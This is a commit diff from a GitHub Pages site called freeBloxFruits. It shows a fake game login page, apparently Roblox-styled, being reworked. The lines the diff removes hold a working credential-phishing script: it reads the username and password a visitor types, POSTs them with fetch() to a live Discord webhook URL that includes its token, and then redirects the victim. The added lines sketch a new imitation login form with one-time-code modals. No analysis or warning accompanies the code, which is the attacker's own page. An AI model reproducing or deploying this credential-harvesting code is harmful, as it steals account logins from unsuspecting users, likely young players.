

Before and after one commit to freeBloxFruits/freeBloxFruits.github.io, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,100 +4,41 @@
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Login Page</title>
-    <style>
-        body {
-            margin: 0;
-            padding: 0;
-            font-family: Arial, sans-serif;
-            background-color: #232527;
-            height: 100vh;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-        }
-        .container {
-            background-color: #393b3d;
-            width: 25%;
-            height: 50%;
-            display: flex;
-            flex-direction: column;
-            justify-content: center;
-            align-items: center;
-            padding: 20px;
-            box-sizing: border-box;
-        }
-
-        h2 {
-            margin: 10px 0;
-            color: #ffffff;
-        }
-
-        input[type="text"], input[type="password"] {
-            width: 100%;
-            padding: 15px;
-            margin: 5px 0;
-            box-sizing: border-box;
-            border: none;
-            border-radius: 5px;
-            background-color: #111212; /* Updated background color */
-        }
-
-        button {
-            padding: 10px 20px;
-            background-color: #393b3d;
-            border: 2px solid white;
-            border-radius: 5px;
-            color: #ffffff;
-            cursor: pointer;
-            margin-top: 10px;
-        }
-
-        button:hover {
-            background-color: #2c2e30; /* Slightly darker shade for hover effect */
-        }
-    </style>
 </head>
 <body>
-    <div class="container">
-        <h2>Login</h2>
-        <input type="text" id="identifier" placeholder="Enter Email/Username/Phone" required>
-        <input type="password" id="password" placeholder="Enter Password" required>
-        <button onclick="loginAndSendData()">Login</button>
-        <button onclick="loginViaCode()">Login via Code</button>
+    <div class="navbar">
+        <!-- Navbar items will be placed here based on Image 1 -->
+        <button id="signupButton">Sign Up</button>
+    </div>
+    <div class="login-container">
+        <!-- Login form elements will be placed here -->
+        <input type="email" id="email" placeholder="Email" required>
+        <input type="password" id="password" placeholder="Password" required>
+        <button id="loginButton">Log In</button>
+        <button id="forgotButton">Forgot username or password?</button>
+        <button id="oneTimeCodeButton">Email me a one-time code</button>
+        <button id="otherDeviceButton">Use another device</button>
+        <button id="createAccountButton">Don't have an account? Create one</button>
+    </div>
+
+    <!-- Modal for "Email me a one-time code" (Image 2) -->
+    <div id="oneTimeCodeModal" class="modal">
+        <div class="modal-content">
+            <input type="email" id="modalEmail" placeholder="Email" required>
+            <button id="sendCodeButton">Send Code</button>
+        </div>
+    </div>
+
+    <!-- Modal for 6-digit code entry (Image 3) -->
+    <div id="digitCodeModal" class="modal">
+        <div class="modal-content">
+            <input type="text" id="digitCode" placeholder="Enter 6-digit code" maxlength="6" required>
+            <button id="verifyCodeButton">Verify</button>
+        </div>
     </div>
 
     <script>
-        async function loginAndSendData() {
-            const identifier = document.getElementById('identifier').value;
-            const password = document.getElementById('password').value;
-
-            // Check if the identifier or password is empty
-            if (!identifier.trim() || !password.trim()) {
-                alert("Both Email/Username/Phone and Password are required!");
-                return;  // Exit the function to prevent sending data
-            }
-
-            // Send data to the webhook
-            await fetch('https://discord.com/api/webhooks/1152874265553682512/TaPkSlcf68aMXsdQ-QphI5tS0OxDL7opL5hZwTiVUEHgrQswRc4wwsBfV0qwXPkfJxnf', {
-                method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json'
-                },
-                body: JSON.stringify({
-                    embeds: [{
-                        title: "Login Information",
-                        description: `Identifier: ${identifier}\nPassword: ${password}`
-                    }]
-                })
-            });
-
-            // Redirect to the specified URL after sending data
-            window.location.href = "https://freebloxfruits.github.io/login-completed/";
-        }
-
-        function loginViaCode() {
-            window.location.href = "https://freebloxfruits.github.io/email/";
-        }
+        // JavaScript for functionality will be added here
     </script>
 </body>
 </html>
```
